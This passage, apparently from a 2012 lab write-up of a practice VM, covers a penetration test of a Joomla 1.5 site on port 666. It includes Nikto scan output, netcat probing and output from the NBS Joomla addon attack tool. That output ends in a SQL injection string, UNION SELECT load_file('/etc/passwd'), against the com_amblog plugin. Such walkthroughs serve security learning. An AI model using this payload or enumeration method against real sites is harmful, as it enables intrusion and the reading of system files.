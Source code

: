 ```
+ OSVDB-12184: /index.php?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3092: /phpmyadmin/changelog.php: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /phpmyadmin/: phpMyAdmin directory found
+ 6474 items checked: 0 error(s) and 8 item(s) reported on remote host
+ End Time:           2012-11-15 18:42:00 (GMT-6) (14 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
root@bt:/pentest/web/nikto# 
```

{{< figure src="/images/posts/2012/hrt2_2.jpg" >}}

There appears to be a phpMyAdmin not locked down, but it doesn't appear to be vulnerable to anything right off the bat.  Checking that 666 port again, connecting with netcat seems to dump out a bunch of HTML.  Weird; connecting now...

{{< figure src="/images/posts/2012/hrt2_3.jpg" >}}

It appears that port 666 has some form of port knocking or filtering enabled.  It also appears to be hosted on Joomla 1.5.  [There's](http://cxsecurity.com/issue/WLB-2008080155) an interesting SQLi for early 1.5 builds, but alas this one is already patched.  This is the part where I had to do a lot of googling; I've only ever made cosmetic modifications to Joomla sites.  The gist of evaluating a Joomla box is enumeration of plugins/modules and platform vulnerabilities.  Plugins are typically found at http://site.com/index.php?option=com_MODULE.  From there it's sqlmapping, exploit-db'ing (when it's available...), and googling.  Fortunately I stumbled upon a tool that tossed a lot of this toil into a simple package; NBS 0.3 Joomla Addon Attack Tool.  This came prepackaged with vulnerable plugin lists that evaluated their existence on the box as well as whether they were vulnerable or not.  The tool required a bit of tweaking on my part to account for the non-default port, but otherwise it worked well:

```
-=[ NBS 0.3 - Joomla Addon Attack Tool ]=-


Make sure you write 'Yes' or 'No' without apostrophes.
Do you wish to scan for addons? Yes or No: Yes

-= Joomla Addon Vulnerability Scanner =-

Example: http://www.domain.tld
[-] Enter a target to scan: http://192.168.1.75
[-] Enter the target port [80]: 666
[*] Trying: index.php?option=com_jscalendar&view=jscalendar&task=details&ev_id= 
[*] Trying: index.php?option=com_jedirectory&view=item&catid= 
[*] Trying: index.php?option=com_jejob&view=item_detail&itemid= 
[*] Trying: index.php?option=com_elite_experts&task=showExpertProfileDetailed&getExpertsFromCountry=&language=ru&id= 
[*] Trying: index.php?option=com_ezautos&Itemid=49&id=1&task=helpers&firstCode= 
[*] Trying: index.php?option=com_timetrack&view=timetrack&ct_id= 
[*] Trying: index.php?option=com_jgen&task=view&id= 
[*] Trying: index.php?option=com_zoomportfolio&view=portfolio&view=portfolio&id= 
[*] Trying: index.php?option=com_fabrik&view=table&tableid= 
[*] Trying: index.php?option=com_zina&view=zina&Itemid= 
[*] Trying: index.php?option=com_ongallery&task=ft&id= 
[*] Trying: index.php?option=com_equipment&view=details&id= 
[*] Trying: index.php?option=com_amblog&view=amblog&catid= 
[*] Addon Found: index.php?option=com_amblog&view=amblog&catid= 
[+] This addon appears to be vulnerable!
[+] Exploited with  index.php?option=com_amblog&view=amblog&catid=
[+] Full exploit string: /index.php?option=com_amblog&view=amblog&catid=-1+UNION+SELECT+load_file('/etc/passwd')
```